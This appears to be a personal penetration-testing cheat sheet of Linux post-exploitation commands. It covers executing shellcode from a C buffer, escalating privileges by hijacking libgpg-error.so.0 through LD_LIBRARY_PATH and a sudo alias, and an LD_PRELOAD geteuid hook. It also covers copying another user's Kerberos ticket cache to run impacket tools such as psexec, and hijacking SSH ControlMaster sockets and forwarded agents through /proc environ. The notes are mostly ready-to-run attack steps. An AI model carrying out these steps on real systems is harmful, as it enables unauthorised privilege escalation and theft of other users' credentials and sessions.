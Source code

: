 * Linux AV is bad with custom c binarys

## Shellcode execute
``` C
int (*ret)() = (int(*)())buf;
ret();
```
``` bash
gcc -o example example.c -z execstack
```

## PE
* If there is auto task running with sudo, try hijacking
* may not works depends on secure path setting
* TODO: test cross compilation
* TODO: msf shell with\without encoder
* Worked: normal without encoder + on target


### libgpg-error.so.0
``` a
export LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
``` a
gcc -Wall -fPIC -c -o test.o test.c
gcc -shared -Wl,--version-script [path to symbol map file ] -o libgpg-error.so.0 test.o
```
``` a
alias sudo="sudo LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]"
```


### geteuid
``` bash
gcc -Wall -fPIC -z execstack -c -o test.o test.c
gcc -shared -o test.so test.o -ldl
export LD_PRELOAD=[path to so file]
```
* triger
``` bash
cp /etc/passwd /tmp/test
```

## Kerberos
``` a
klist
kvno cifs/dmzdc01.complyedge.com
sudo cp /tmp/krb5cc_75401103_hOg8VH /tmp/krb5cc_minenow
export KRB5CCNAME=/tmp/krb5cc_minenow
sudo apt install krb5-user
```
* below script can work with proxychain
``` a
/usr/share/doc/python3-impacket/examples/GetADUsers.py
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py
/usr/share/doc/python3-impacket/examples/psexec.py
```


## controlmaster
* Check ssh user config first  
* Check /.ssh/controlmaster/ if same user, ssh directly
* if with sudo
``` bash
ssh -S /home/testuser/.ssh/controlmaster/testuser\@testbox\:22 testuser@testbox
```

## ForwardAgent
* Check ssh user config first
* Need also enable from target
* from kali
```  bash
eval `ssh-agent` 
```

``` bash
pstree -p testuser | grep ssh
cat /proc/[pid of bash]/environ
SSH_AUTH_SOCK=[...] ssh-add -l
SSH_AUTH_SOCK=[...] ssh testuser@testbox
```





